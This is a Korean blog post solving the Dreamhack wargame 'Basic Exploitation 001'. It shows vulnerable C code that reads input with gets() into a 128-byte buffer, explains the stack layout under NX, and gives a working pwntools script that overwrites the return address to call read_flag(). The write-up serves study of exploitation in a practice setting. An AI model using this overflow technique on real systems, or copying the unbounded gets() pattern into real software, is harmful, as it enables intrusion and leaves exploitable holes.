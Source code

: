 ```yaml
---
layout: post
title: [Dreamhack] Basic Exploitation 001
subtitle: Dreamhack-Pwnable Basic Exploitation 001
categories: Pwnable
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188456086-910f189b-efd0-4046-b9e4-0941f1ea5a71.jpg" width = 500>
</p>

환경 정보를 보면 NX가 활성화되어 있는 것을 알 수 있다. 그렇다는 것을 Shellcode를 대입하더라도 스택 영역에 실행 권한이 없어 Shellcode를 실행하지 못하고 종료하게 된다. 주어진 파일을 확인해보겠습니다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];
    initialize();
    gets(buf);
    return 0;
}
```

`read_flag()`함수가 flag를 읽어주는 함수로 되어 있다. 하지만 main에는 read_flag()를 실행할 곳이 없다. **get()**함수는 크기 상관없이 읽어드리기에 buf의 크기를 넘겨 RET에 read_flag() 위치를 대입하면 해결될 것으로 보인다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188460027-f08259f3-d443-4643-9b86-6fe36fcfda6d.jpg" width = 500>
</p>

`buf[0x80]` 위 빨간 네모칸을 통해서 총 128byte만큼 buf에 할당하고 그 위치를 `gets()`로 입력 받는다.

그리고 `read_flag()`의 함수 호출 위치를 알아낸다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188460919-def60535-b780-4692-a0d5-296c241a0439.jpg" width = 380>
</p>

**그렇다면 Buf(128byte) + SFP(4byte) + RET(read_flag()의 4byte)로 flag를 읽어올 수 있다.**

```python
from pwn import *

p = remote('host3.dreamhack.games', 22987)

elf = ELF('./basic_exploitation_001')
read_flag = elf.symbols['read_flag'] # 0x80485b9
payload = b''
#dummy = b'\x90' * 128
SFP = b'S' * 4

payload += payload.ljust(128, b'\x90')
#payload += dummy
payload += SFP
payload += p32(read_flag)

p.sendline(payload)
p.interactive()
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188464458-831d66a4-be19-4cd8-a4a1-8f2819e6ceb6.jpg" width = 380>
</p>

이전 문제보다는 더욱 쉬운 느낌이였다. `read_flag = elf.symbols['read_flag']`처럼 직접 read_flag의 함수 주소를 명시하지 않고 pwntools를 이용해서 가져오는 것도 가능하다.